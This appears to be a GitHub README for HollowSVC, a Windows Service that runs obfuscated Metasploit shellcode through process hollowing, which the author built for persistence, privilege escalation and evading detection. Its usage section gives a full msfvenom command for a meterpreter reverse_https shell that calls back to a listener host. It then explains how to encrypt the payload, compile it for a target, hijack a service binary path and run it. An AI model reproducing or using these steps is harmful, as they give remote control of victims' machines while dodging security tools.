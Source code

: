 
This program is a Windows Service with the process hollowing technique that runs shellcode , it requires the ROT "encrypted" shellcode that the user will create with the HollowCrypt program. 
I created this because there were moments where I needed a custom and easy way to run metasploit shellcode on a windows service to persist/privilege escalate, and using the common tools would trigger my binaries . . 


## How to use it

First, we need to create our shellcode:
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.147 LPORT=443 EXITFUNC=thread -f csharp
```

Then, encrypt the shellcode with HollowCrypt:
```
HollowCrypt.exe
```

After that, replace the encrypted shellcode in the HollowSVC source code. 
Now  compile the service in the arch of your target, setup your listener, hijack the binary/path in the target and run!
